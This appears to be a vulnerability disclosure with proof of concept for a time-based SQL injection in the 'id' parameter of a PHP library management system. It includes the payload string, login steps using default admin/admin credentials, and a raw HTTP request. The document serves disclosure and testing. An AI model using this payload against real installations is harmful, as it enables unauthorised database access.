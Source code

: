 #### Title: Library Management System with QR code Attendance 1.0 SQL Injection
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Sql%20Injection/POC.md

#### Description：
##### The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Library Management System with QR code Attendance does not filter the content correctly at the "bookdetails" id parameter, resulting in the generation of SQL injection.

#### Payload used:
`' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`

#### POC

1.  Login into the CMS.
Admin Default Access:

Username: admin

Password: admin


2. http://localhost/LMS/librarian/bookdetails.php?id=191


3. Put sleep(5) payload (`' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`)

4. `http://localhost:80/LMS/librarian/bookdetails.php?id=' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`



5. code
```
GET /LMS/librarian/bookdetails.php?id=%27%20AND%20(SELECT%209198%20FROM%20(SELECT(SLEEP(5)))iqZA)--%20PbtB HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close
```

![image](https://github.com/CyberThoth/CVE/blob/e2ae7b7a85ec722ee15a2b72add0d54dd8d0e4a2/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Sql%20Injection/1.png)

![image](https://github.com/CyberThoth/CVE/blob/e2ae7b7a85ec722ee15a2b72add0d54dd8d0e4a2/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Sql%20Injection/2.png)